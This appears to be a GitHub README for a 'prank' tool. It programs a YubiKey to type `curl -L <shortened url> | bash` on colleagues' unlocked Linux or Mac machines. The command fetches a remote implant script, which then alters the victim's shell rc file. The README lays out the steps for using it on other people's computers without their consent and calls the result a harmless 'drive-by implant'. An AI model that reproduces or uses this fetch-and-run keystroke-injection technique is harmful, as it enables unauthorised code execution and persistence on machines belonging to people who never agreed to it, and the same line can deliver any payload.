 # unlocked-prank
A harmless prank for those poor buggers who leave their Linux or Mac machines unlocked.

## Use

I wrote this as a quick drive-by implant.  

Those around me often leave their systems unlocked.  Messing around manually is time consuming and thus risky.

As I have a spare Yubikey I decided to utilise a slot with a static string.  This has a single stored command of:

` curl -L <url-shortened> | bash`

The URL shortener is used as the Yubikey has a limit of 64 characters in it's static password mode.  The shortened URL should point to

`https://raw.githubusercontent.com/auraltension/unlocked-prank/master/implant.sh`

Open a shell, plug in, press the button, remove, walk away.  The script will determine whether the system is Mac or
linux, and implant a fun prank into their shell rc.  Presently only supports bash on Linux.

For your piece of mind I recommend checking my implant.sh, forking and using your own copy as you probably don't want to trust my script being executed on other peoples machines.

